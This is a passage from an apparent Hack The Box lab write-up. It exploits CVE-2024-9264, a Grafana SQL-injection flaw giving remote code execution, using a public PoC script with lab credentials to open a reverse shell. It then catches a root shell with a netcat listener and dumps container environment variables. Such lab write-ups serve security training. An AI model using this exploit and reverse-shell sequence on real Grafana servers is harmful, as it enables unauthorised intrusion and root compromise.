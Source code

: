```
https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit
CVE-2024-9264-RCE-Exploit in Grafana via SQL Expressions

https://github.com/nollium/CVE-2024-9264
Grafana Post-Auth DuckDB SQL Injection (RCE, File Read)
```
They both direct to the sql injection.

Let's download one of the poc script and exploit them.
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Planning/CVE-2024-9264-RCE-Exploit]
└─$ python3 poc.py -h                                                                             
usage: poc.py [-h] --url URL --username USERNAME --password PASSWORD --reverse-ip REVERSE_IP --reverse-port REVERSE_PORT

Authenticate to Grafana and create a reverse shell payload

options:
  -h, --help            show this help message and exit
  --url URL             Grafana URL (e.g., http://127.0.0.1:3000)
  --username USERNAME   Grafana username
  --password PASSWORD   Grafana password
  --reverse-ip REVERSE_IP
                        Reverse shell IP address
  --reverse-port REVERSE_PORT
                        Reverse shell port



┌──(wither㉿localhost)-[~/Templates/htb-labs/Planning/CVE-2024-9264-RCE-Exploit]
└─$ python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.16 --reverse-port 443
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 443
```

Then we can successfully get the reverse shell as root
```
nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.68] 57654
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# pwd
/usr/share/grafana
```

I think we are in the docker environment, so we have to escape from docker.
Let's check the env values
```
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
OLDPWD=/usr/share/grafana/bin
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=enc
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
```